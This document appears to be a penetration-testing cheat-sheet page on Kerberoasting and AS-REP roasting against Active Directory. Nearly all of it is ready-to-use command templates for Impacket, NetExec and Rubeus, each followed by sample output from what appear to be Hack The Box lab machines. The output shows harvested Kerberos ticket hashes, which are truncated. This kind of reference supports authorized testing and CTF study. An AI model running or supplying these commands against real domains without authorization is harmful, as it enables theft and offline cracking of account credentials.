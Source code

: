 ```yaml
---
title: "Kerberoasting"
date: 2024-7-6
tags: ["Kerberos", "Impacket", "Kerberoasting", "Asreproast", "Rubeus", "Domain Controller", "Active Directory", "Windows", "GetNPUsers"]
---
```


### AS_REP Roasting

{{< tab set1 tab1 >}}Impacket{{< /tab >}}
{{< tab set1 tab2 >}}nxc{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
# Multiple valid usernames
impacket-GetNPUsers <DOMAIN>/ -usersfile <USERS_FILE> -no-pass -dc-ip <DC_IP>
```

```console {class="sample-code"}
$ impacket-GetNPUsers ABSOLUTE.HTB/ -usersfile valid_usernames.txt -no-pass -dc-ip DC.ABSOLUTE.HTB
Impacket v0.13.0.dev0+20240916.171021.65b774de - Copyright Fortra, LLC and its affiliated companies 

[-] User j.roberts doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User m.chaffrey doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User s.osvald doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$d.klay@ABSOLUTE.HTB:85554d22d5c220d8a757ce9913d207ea$7288c91ca ---[SNIP]--- 0e09c5d9d1
[-] User j.robinson doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User n.smith doesn't have UF_DONT_REQUIRE_PREAUTH set
```

```console
# Single user without creds
impacket-GetNPUsers -no-pass -dc-ip <DC_IP> '<DOMAIN>/<USER>'
```

```console {class="sample-code"}
$ impacket-GetNPUsers -no-pass -dc-ip 10.10.11.181 ABSOLUTE.HTB/d.klay
Impacket v0.13.0.dev0+20240916.171021.65b774de - Copyright Fortra, LLC and its affiliated companies 

[*] Getting TGT for d.klay
$krb5asrep$23$d.klay@ABSOLUTE.HTB:97c9a3ec7b550c29bc52f0c176738e73$ab25b07d4 ---[SNIP]--- 78a8e52bb6
```

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

```console
# Multiple valid usernames
nxc ldap <DC> -u <USERS_FILE> -p '' --asreproast as_rep_hashes.txt
```

```console {class="sample-code"}
$ nxc ldap 10.10.11.181 -u valid_usernames.txt -p '' --asreproast as_rep_hashes.txt
SMB         10.10.11.181    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:absolute.htb) (signing:True) (SMBv1:False)
LDAP        10.10.11.181    445    DC               $krb5asrep$23$d.klay@ABSOLUTE.HTB:5a082acfc8 ---[SNIP]--- 06ddb9be16
```

{{< /tabcontent >}}

---

### Kerberoasting (From Linux)

{{< tab set2 tab1 >}}Impacket{{< /tab >}}
{{< tab set2 tab2 >}}nxc{{< /tab >}}
{{< tabcontent set2 tab1 >}}

```console
# With Password
sudo ntpdate -s <DC> && impacket-GetUserSPNs -request '<DOMAIN>/<USER>:<PASSWORD>' -dc-ip <DC>
```

```console
# With Kerberos
sudo ntpdate -s <DC> && impacket-GetUserSPNs -request '<DOMAIN>/<USER>' -no-pass -k -dc-host <DC>
```

```console {class="sample-code"}
$ sudo ntpdate -s DC1.scrm.local && impacket-GetUserSPNs -request 'scrm.local/ksimpson:ksimpson' -k -dc-host DC1.scrm.local
Impacket v0.13.0.dev0+20240916.171021.65b774de - Copyright Fortra, LLC and its affiliated companies 

[-] CCache file is not found. Skipping...
[-] CCache file is not found. Skipping...
ServicePrincipalName          Name    MemberOf  PasswordLastSet             LastLogon                   Delegation 
----------------------------  ------  --------  --------------------------  --------------------------  ----------
MSSQLSvc/dc1.scrm.local:1433  sqlsvc            2021-11-04 00:32:02.351452  2024-09-24 15:53:26.496449             
MSSQLSvc/dc1.scrm.local       sqlsvc            2021-11-04 00:32:02.351452  2024-09-24 15:53:26.496449             

[-] CCache file is not found. Skipping...
$krb5tgs$23$*sqlsvc$SCRM.LOCAL$scrm.local/sqlsvc*$b62984d5b ---[SNIP]--- f4c2161493
```

<small>*Note: Times skew have to be within 5 minutes in kerberos*</small>

```console
# Kerberoasting without cred
sudo ntpdate -s <DC> && impacket-GetUserSPNs -no-preauth <USER_WITH_DONT_REQUIRE_PREAUTH> -usersfile <USERS_FILE> -dc-host <DC> <DOMAIN>/
```

```console {class="sample-code"}
$ sudo ntpdate -s dc01.rebound.htb && impacket-GetUserSPNs -no-preauth jjones -usersfile valid_usernames.txt -dc-host 10.10.11.231 rebound.htb/
Impacket v0.13.0.dev0+20240916.171021.65b774de - Copyright Fortra, LLC and its affiliated companies 

[-] Principal: Administrator - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
[-] Principal: Guest - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
$krb5tgs$18$krbtgt$REBOUND.HTB$*krbtgt*$d989a5d49 ---[SNIP]--- 962d2aa2f2
---[SNIP]---
```

{{< /tabcontent >}}
{{< tabcontent set2 tab2 >}}

```console
sudo ntpdate -s <DC> && nxc ldap <DC_IP> -u '<USER>' -p '<PASSWORD>' -k --kerberoasting kerberoast_hashes.txt
```

```console {class="sample-code"}
$ sudo ntpdate -s DC1.scrm.local && nxc ldap 10.10.11.168 -u ksimpson -p 'ksimpson' -k --kerberoasting kerberoast_hashes.txt
LDAP        10.10.11.168    389    DC1.scrm.local   [*]  x64 (name:DC1.scrm.local) (domain:scrm.local) (signing:True) (SMBv1:False)
LDAPS       10.10.11.168    636    DC1.scrm.local   [+] scrm.local\ksimpson 
LDAPS       10.10.11.168    636    DC1.scrm.local   Bypassing disabled account krbtgt 
LDAPS       10.10.11.168    636    DC1.scrm.local   [*] Total of records returned 2
LDAPS       10.10.11.168    636    DC1.scrm.local   sAMAccountName: sqlsvc memberOf:  pwdLastSet: 2021-11-04 00:32:02.351452 lastLogon:2024-09-24 15:53:26.496449
LDAPS       10.10.11.168    636    DC1.scrm.local   $krb5tgs$23$*sqlsvc$SCRM.LOCAL$scrm.local/sqlsvc*$335aeba3b ---[SNIP]--- 9718487474
```

```console
# With socks5 proxy
proxychains4 -q nxc ldap <DC_IP> -u '<USER>' -p '<PASSWORD>' -k --kerberoasting kerberoast_hashes.txt --dns-tcp --dns-server <DC_IP>
```

{{< /tabcontent >}}

### Kerberoasting (From Windows)

{{< tab set3 tab1 >}}rubeus{{< /tab >}}
{{< tabcontent set3 tab1 >}}

```console
.\rubeus.exe kerberoast /creduser:<DOMAIN>\<USER> /credpassword:'<PASSWORD>'
```

{{< /tabcontent >}}
